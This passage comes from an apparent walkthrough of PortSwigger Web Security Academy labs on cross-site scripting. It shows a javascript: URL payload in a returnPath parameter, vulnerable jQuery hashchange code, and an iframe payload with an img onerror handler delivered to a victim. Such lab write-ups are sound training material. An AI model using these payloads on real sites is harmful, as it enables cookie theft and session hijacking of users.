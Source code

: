 ```

And the url of the "Submit Feedback" page is  `https://0af5007903b0426b803b4e9100cb0023.web-security-academy.net/feedback?returnPath=/:`

![image](https://github.com/user-attachments/assets/9898e542-9c0b-468f-87af-c0a1e97383c7)

It is possible to use a Javascript url link

```

/feedback?returnPath=javascript:alert(document.cookie) 

```

![image](https://github.com/user-attachments/assets/ed266f20-0e11-44a5-8344-411f8835a355)


After alert pop lab will be solved

---

### LAB 6 - DOM XSS in jQuery selector sink using a hashchange event

### Lab Description

![image](https://github.com/user-attachments/assets/41da8481-d299-4168-9f74-15f70f0f5467)

### Solution

This is the problematic code in the Home page:
```
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});

```


![image](https://github.com/user-attachments/assets/d8c793fe-ebe4-457f-b82e-9195d6771dd6)

To exploit it, it is possible to use the same payload as in  `https://portswigger.net/web-security/cross-site-scripting/dom-based `:

Payload we used = <iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>

Deliver exploit to victum and lab will be solved

![image](https://github.com/user-attachments/assets/46c05e1f-df41-4894-b762-361c33934ed5)


---

### LAB 7 - Reflected XSS into attribute with angle brackets HTML-encoded

### Lab Description

![image](https://github.com/user-attachments/assets/19ea5936-1e8c-45c8-8d2d-139d0227a073)

### Solution

![image](https://github.com/user-attachments/assets/282a3b61-12c7-4267-80aa-5bbf48709144)

```